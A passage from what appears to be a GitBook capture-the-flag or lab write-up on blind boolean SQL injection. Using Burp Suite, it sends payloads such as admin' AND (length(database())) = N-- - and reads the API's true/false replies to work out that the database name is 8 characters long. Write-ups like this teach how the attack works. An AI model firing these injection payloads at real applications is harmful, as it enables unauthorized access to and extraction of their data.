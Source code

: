 Knowing this, we can craft a SQLI payload that must amount to a `Truthy` statement ie (return `false` from the api.)
{% endhint %}

Lets craft a payload and use burpsuite to test.

### Using Burpsuite and Python

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 1
# lets get the length of the database() string.
admin' AND (length(database())) = 1-- - 
# returns "true" from the api, meaning a Falsy statement, and that the length of the database is more than 1.
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 2
admin' AND (length(database())) = 2-- -
# also returns "true" from the api. so we keep going.
```
{% endcode %}

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 3
admin' AND (length(database())) = 8-- -
# returns "false" from the api. This is our Truthy statement. And the length of the DB string is 8.
```
{% endcode %}

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
